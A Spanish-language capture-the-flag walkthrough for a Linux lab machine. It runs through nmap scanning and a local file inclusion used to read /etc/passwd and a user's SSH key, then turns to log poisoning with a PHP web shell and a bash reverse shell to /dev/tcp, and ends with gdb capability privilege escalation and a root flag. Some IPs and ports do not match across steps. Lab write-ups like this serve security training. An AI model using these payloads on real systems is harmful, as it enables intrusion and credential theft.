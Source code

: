 # Summary
- IP: 192.168.0.115
- Ports: 22,80,7080,8088
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.9p1 Debian 10+deb10u2
	-  80 -> Apache httpd 2.4.38
	-  7080-> LiteSpeed
	-  8088 -> LiteSpeed

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de página web:

$nmap --script http-enum -p80 192.168.0.112 -oN webScan

- Analizamos el directorio cgi-data y encontramos un recuerso php, lo analizamos con wfuzz en búsqueda de algún parámetro que apunte a archivos del sistema (LFI) y encontramos que el parámetro "file" es vulnerable.

- Vemos el archivo /etc/passwd y enumeramos los usuarios que tienen una bash.


# Enumeración básica de LFI:

```
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4

curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4  |  awk '{print $2}'
```

- Nos encontramos con puertos abiertos dentro de la máquina en hexadecimal (Últimos 4 caracteres de cada fila) transformarlos en decimal:

```
$echo $((16#VALOR HEXADECIMAL))
```

- Encontramos el puerto 3306 abierto (Mysql)

- Enumeramos procesos:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/sched_debug"
```

- Enumeramos usuarios:

```
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/etc/passwd" | grep "sh$"
```

- Enumerar clave privada de usuario encontrado:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/home/durian/.ssh/id_rsa"
```

- Verificar que exista vulnerabilidad de log poisoning listando los recursos de apache, mail ssh:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/apache2/access.log"

$curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios"

$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/auth.log"
```


- Al no obtener información relevante, tratamos de derivar el LFI a RCE con burpsuite:
- Abrimos burpsuite y nos vamos al recurso mediante el navegador para interceptar desde el proxy:

(536=proceso de apache visto en el recurso sched_debug)
http://192.168.0.115/cgi-data/getImage.php?file=/proc/536/cmdline 

- Interceptar peticion en burpsuite y mandarla al repeater (Ctrl+R):

- apuntar a:

http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/0

y mandarla al Intruder ( Ctrl+i ) para realizar ataque:

- Seleccionar ataque de tipo Snipper
- Seleccionar "clear" para limpiar
- Seleccionar el 0 y click en ADD.
- En la pestaña payloads seleccionar de tipo numérico (numbers)
- Indicar desde 1 hasta 30 de 1 en 1
- Click en start attack
- Examinar recursos:
- En los recursos con mayor número de respuestas pueden tratarse de logs, en este caso en la ruta "8" vemos demasiadas respuestas, por lo que podría ser el log de apache: (reiniciar máquina víctima para comprobar que se haya limpiado el supuesto log de apache)
- Seleccionar la petición de la ruta "8" y mandarla al repeater (Ctrl+r)
http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/8
- Repetimos la petición y vemos que si se trata del log de apache ya que registra las peticiones que se hacen a la IP de la máquina
- Ahora inyectamos código PHP en el user-agent ya que estamos apuntando a un archivo php (getImage) y el código lo debería interpretar:
- Hacemos una petición cualquier a la web y capturamos con Burpsuite:
- Modificamos en el repeater el user-agent por el código PHP y le damos send:

```
<?php system('whoami'); ?>
```

- Revisamos de nuevo el log apache y veremos el código PHP interpretado.
- Hacemos que por un parámetro "cmd" podamos ejecutar los comandos que queramos desde el link:

```
<?php system($_GET['cmd']); ?>
```

- Ahora desde el link (como ya existe un interrogante agregamos un ampersan) podemos ejecutar comandos:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=pwd

- Creamos una reverse shell básica:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261"

- Accedemos, hacemos tratamiento de la tty y obtenemos la flag de usuario:

#  USER FLAG: 


# ESCALANDO PRIVILEGIOS:

- Con sudo -l vemos que tenemos permitido ejecutar dos binarios como root "shutdown" y "ping", buscamos en gtfobins pero no encontramos nada, se trata de una rabbit hole.
- Buscamos por capabilities:

```
getcap -r / 2>/dev/null
```

- Obtenemos "gdb" con capabilities, buscamos en gtfobins y si que hay forma de ganar acceso a una bash root:

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

-   This requires that GDB is compiled with Python support.
    
    ```
    cp $(which gdb) .
    sudo setcap cap_setuid+ep gdb
    
    ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
    ```

- Ejecutamos el comando y accedemos como root.

#  ROOT FLAG: SunCSR_Team.af6d45da1f1181347b9e2139f23c6a5b